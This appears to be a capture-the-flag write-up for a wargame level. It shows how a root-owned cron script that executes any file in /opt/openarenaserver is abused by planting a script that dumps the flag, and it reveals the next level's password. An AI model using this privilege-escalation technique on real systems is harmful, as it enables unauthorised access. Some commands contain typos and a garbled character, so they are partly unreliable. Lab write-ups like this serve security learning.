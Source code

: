 When we log as level05 we get a message saying: `You have new mail`

Searching we find the directory `/var/mail/level05`

We find what looks like a cron file and it says that every 2 minutes `/user/sbin/openareanserver` is executed

Let’s check that executable to see who owns i

```jsx
ls -la /usr/sbin/openarenaserver
```

As expected, it’s owned by flag05, so let’s see what it does.

```bash
#!/bin/sh

for i in /opt/openarenaserver/* ; do
        (ulimit -t 5; bash -x "$i")
        rm -f "$i"
done
```

It execute everything in `/opt/openarenaserver` directory so lets put a `.sh` file there to get the flag

```bash
echo "/bin/getflag ª /tmp/file.txt" > /opt/openarenaserver/file.sh
```

Wait for 2 minutes max and check the file

```bash
cat /tmp/file.txt
```

There is the password so lets go on

```bash
su level06
password viuaaale9huek52boumoomioc
```